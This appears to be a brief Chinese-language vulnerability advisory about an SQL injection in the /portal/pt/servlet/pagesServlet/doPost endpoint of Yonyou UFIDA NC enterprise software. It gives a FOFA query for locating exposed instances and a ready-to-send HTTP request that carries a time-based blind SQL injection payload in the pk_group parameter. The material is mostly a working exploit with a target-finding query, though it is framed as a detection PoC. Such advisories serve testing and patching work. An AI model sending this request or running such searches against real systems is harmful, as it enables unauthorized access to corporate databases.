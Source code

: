 **fofa**

```
app="用友-UFIDA-NC"
```

**一、漏洞简述**

用友NC以“全球化集团管控、行业化解决方案、全程化电子商务、平台化应用集成”的管理业务理念而设计，采用J2EE架构和先进开放的集团级开发平台UAP，形成了集团管控8大领域15大行业68个细分行业的解决方案，是中国大企业集团管理信息化应用系统的首选。其接口

/portal/pt/servlet/pagesServlet/doPost存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

***\*二、漏洞检测poc\****

```yaml
GET /portal/pt/servlet/pagesServlet/doPost?pageId=login&pk_group=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Length: 6
```

